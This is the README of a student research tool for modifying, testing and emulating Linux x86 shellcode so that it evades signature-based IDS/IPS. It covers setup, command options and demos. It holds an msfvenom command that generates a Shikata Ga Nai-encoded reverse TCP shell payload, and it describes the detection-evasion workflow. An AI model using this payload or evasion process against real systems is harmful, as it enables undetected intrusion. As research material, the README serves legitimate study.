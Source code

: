 # Shellcode Assistant

A useful helper script for hex editing, writing and/or testing **Linux x86 shellcode** to bypass IDS/IPS.

**Shellcode Assistant is designed to be used on Kali Linux Rolling x86**

The tool was developed for a Offensive Technologies research project by students of OS3. We were looking for a comfortable and efficient way for altering existing shellcode. With this tool, the experiments of our research can easily be reproduced.

This tool is designed to make the process of altering shellcode to bypass **signature based** detection easier. It takes a raw shellcode file as input and offers various options, including dumping code in hexadecimal or Intel x86 ASM format, compiling code using a C wrapper and executing and checking a raw shellcode file for a specific string. In addition, it can emulate, analyse and generate a graph for x86 shellcode using Libemu. Automatic recompilation, which triggers when the modification time stamp changes, is another useful feature that might save time when raw shellcode is manually modified and saved using a hex editor. **We recommend using the automatic recompilation mode**.

The script also provides an **interactive command line interface**, similar to Metasploit's nasm-shell, for assembling and disassembling instructions. It does this using the Capstone and Keystone libraries.

## Dependencies
* Python 3 (≥ 3.5)
* Capstone
* Keystone
* Libemu
* gcc

## Setup

```
# python3 libraries
pip3 install capstone
pip3 install keystone-engine
pip3 install colorama

# gcc is required for compiling the raw shellcode into an executable
sudo apt install build-essential

# libemu is required for outputting a graph using Libemu's sctest
sudo apt install graphviz
sudo apt install libemu2
```

## Usage

```
=============================================================
                -- Shellcode Assistant v1.0 --
=============================================================

usage: shellcode_assistant.py [-h] -f FILE [-o OFFSET] [-t] [-s STDOUT]
                              [-se STDERR] [-x] [-c] [-e] [-d] [-a] [-A] [-R]
                              [-ob]

== Tool to assist a user in modifiying shellcode ==

optional arguments:
  -h, --help            show this help message and exit
  -f FILE, --file FILE  Enter path to file.
  -o OFFSET, --offset OFFSET
                        Set hexadecimal program offset.
  -t, --test            Run and test compiled executable.
  -s STDOUT, --stdout STDOUT
                        Check STDOUT for a specific string.
  -se STDERR, --stderr STDERR
                        Check STDERR for a specific string.
  -x, --hexdump         Dump hex code.
  -c, --compile         Compile file using C wrapper.
  -e, --emulate         Emulate and analyse shellcode using Libemu.
  -d, --disassemble     Disassemble shellcode.
  -a, --assembler       Start ASM interactive assembler mode.
  -A, --all             Run all functions above.
  -R, --autorecompile   Automatic recompiling and testing upon file
                        modification time change.
  -ob, --objdump        Use Linux objdump instead of Python Capstone library.
```

*The Python Capstone library might truncate code in certain cases. Use --objdump if necessary.*

## Examples

```
root@kali:~/OT-Project# python3 shellcode_assistant.py -f testing.bin -A -s "Hello World" -o 40404040
root@kali:~/OT-Project# python3 shellcode_assistant.py -f testing.bin -R
```

### Demo - Modifying Shikata Ga Nai Encoded 'Hello World' Shellcode

<img title="" src="https://raw.githubusercontent.com/alexander-47u/Shellcode-Assistant/master/demo.gif" width="1000px" height="565" alt="" data-align="center">

### ASM Interactive Assembler / Dissassembler

```
...
0x40404064    2    31 DB               xor    ebx, ebx
0x40404066    2    CD 80               int    0x8
---------------------------------------
Last Modified: Sat May 16 16:48:48 2020
---------------------------------------
asm > ?
x86-instruction | recompile | test | emulate | ls | clear | exit
asm > jmp esp; inc ecx; inc ebx
\xFF\xE4\x41\x43
asm > 0xFFE5
jmp    ebp
asm > \xFF\xE6
jmp    esi
asm > emulate

Shellcode emulated:
Diagram saved as 'testing.bin.dot' & 'testing.bin.png'
---------------------------------------
asm >
```

### Obtaining raw shellcode

#### Method 1 - Compiling ASM and Dumping Code Section to HEX

```
1. Compile ASM Code
nasm -f elf32 helloworld.asm -o helloworld.o

2. Dump object code to hex code
objdump -d ./helloworld.o|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'

3. Save hex shellcode to raw shellcode file using echo
echo -e "\x31\xc0\xb0\x04\x31\xdb\xb3\x01\x31\xd2\x52\x68\x72\x6c\x64\x0a\x68\x6f\x20\x57\x6f\x68\x48\x65\x6c\x6c\x89\xe1\xb2\x0c\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80" > testing.bin
```

#### Method 2 - Using Metasploit's Shellcode Generator

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 LPORT=443 -f raw -b "\x00" -e x86/shikata_ga_nai -o testing.bin
```
### Demo - Diagram Generated by Libemu

<img title="" src="https://raw.githubusercontent.com/alexander-47u/Shellcode-Assistant/master/demo.png" width="600px" height="484" alt="" data-align="center">

## Authors

Alexander-OS3

Jelle-OS3

## TO-DO

Create x64 version of script

Create Windows versions of script
